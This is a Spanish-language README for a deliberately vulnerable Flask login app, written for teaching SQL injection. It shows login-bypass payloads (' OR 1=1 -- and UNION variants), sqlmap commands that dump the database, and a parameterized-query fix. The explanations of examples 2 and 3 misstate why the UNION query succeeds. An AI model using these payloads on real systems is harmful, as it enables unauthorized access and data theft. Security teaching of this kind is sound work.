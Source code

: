 # SQL Injection Example

Ejemplo de *malas prácticas* en el desarrollo de aplicaciones web que permiten la inyección de código SQL.

Esta aplicación web de muestra contiene un formulario de login que permite el acceso a un área privada. El formulario de login está implementado en Flask y utiliza una base de datos SQLite para almacenar los usuarios y sus contraseñas.

## Ejecución

Para ejecutar la aplicación, es necesario instalar las dependencias de Python que se encuentran en el fichero `requirements.txt`:

```bash
pip install -r requirements.txt
```

Una vez instaladas las dependencias, se puede ejecutar la aplicación con el siguiente comando:

```bash
python3 -m flask run
```

## Inyección de código SQL

La aplicación web permite el acceso a un área privada a los usuarios que se encuentran en la base de datos. Para acceder al área privada, es necesario introducir un usuario y una contraseña válidos. Si el usuario y la contraseña son correctos, se muestra un mensaje de bienvenida. En caso contrario, se muestra un mensaje de error.

La aplicación web es (deliberadamente) vulnerable a la inyección de código SQL. Esto significa que un atacante puede introducir código SQL en el formulario de login para acceder al área privada sin conocer un usuario y una contraseña válidos.

### Ejemplo 1

El siguiente ejemplo muestra cómo un atacante puede acceder al área privada sin conocer un usuario y una contraseña válidos. Para ello, el atacante introduce el siguiente código en el formulario de login:

```
' OR 1=1 --
```

El código anterior se traduce en la siguiente consulta SQL:

```sql
SELECT * FROM users WHERE username='' OR 1=1 --' AND password=''
```

La consulta SQL anterior devuelve todos los usuarios de la base de datos, ya que la condición `1=1` siempre es verdadera. Por lo tanto, el atacante puede acceder al área privada sin conocer un usuario y una contraseña válidos.

### Ejemplo 2

El siguiente ejemplo muestra cómo un atacante puede acceder al área privada sin conocer un usuario y una contraseña válidos. Para ello, el atacante introduce el siguiente código en el formulario de login:

```
' UNION SELECT * FROM users WHERE username='admin' --
```

El código anterior se traduce en la siguiente consulta SQL:

```sql
SELECT * FROM users WHERE username='' UNION SELECT * FROM users WHERE username='admin' --' AND password=''
```

La consulta SQL anterior devuelve todos los usuarios de la base de datos, ya que la condición `username='admin'` siempre es verdadera. Por lo tanto, el atacante puede acceder al área privada sin conocer un usuario y una contraseña válidos.

### Ejemplo 3

El siguiente ejemplo muestra cómo un atacante puede acceder al área privada sin conocer un usuario y una contraseña válidos. Para ello, el atacante introduce el siguiente código en el formulario de login:

```
' UNION SELECT * FROM users WHERE username='admin' AND password LIKE '%a%' --
```

El código anterior se traduce en la siguiente consulta SQL:

```sql
SELECT * FROM users WHERE username='' UNION SELECT * FROM users WHERE username='admin' AND password LIKE '%a%' --' AND password=''
```

La consulta SQL anterior devuelve todos los usuarios de la base de datos, ya que la condición `username='admin'` siempre es verdadera. Por lo tanto, el atacante puede acceder al área privada sin conocer un usuario y una contraseña válidos.

### Ejemplo 4

El siguiente ejemplo hace uso de la herramienta `sqlmap` para obtener información de la base de datos. Es necesario instalar dicha herramienta y ejecutar alguno de los siguientes comandos:

```bash
sqlmap -u http://localhost:5000/login --data "username=whatever&password=youwant" --dump-all --schema
```

También se puede utilizar la opción `--wizard` para obtener información de la base de datos de forma asistida.

```bash
sqlmap -u http://localhost:5000/login --wizard
```

## Solución

Para evitar la inyección de código SQL, es necesario utilizar *consultas parametrizadas*. En Python, las consultas parametrizadas se pueden utilizar con el método `execute` de la clase `Cursor` de la librería `sqlite3`. Por ejemplo:

```python
cursor.execute('SELECT * FROM users WHERE username=? AND password=?', (username, password))
```

## Referencias

* [SQL Injection, OWASP](https://owasp.org/www-community/attacks/SQL_Injection)
* [SQL Injection Prevention Cheat Sheet, OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
* [SQL Injection, PortSwigger](https://portswigger.net/web-security/sql-injection)
* [SQL Injection, W3Schools](https://www.w3schools.com/sql/sql_injection.asp)
* [SQL Injection Cheat Sheet, Invicti Web Security Blog](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
* [What is SQL Injection (SQLi) and How to Prevent It, Acunetix](https://www.acunetix.com/websitesecurity/sql-injection/)
* [sqlmap, Automatic SQL injection and database takeover tool](https://sqlmap.org/)


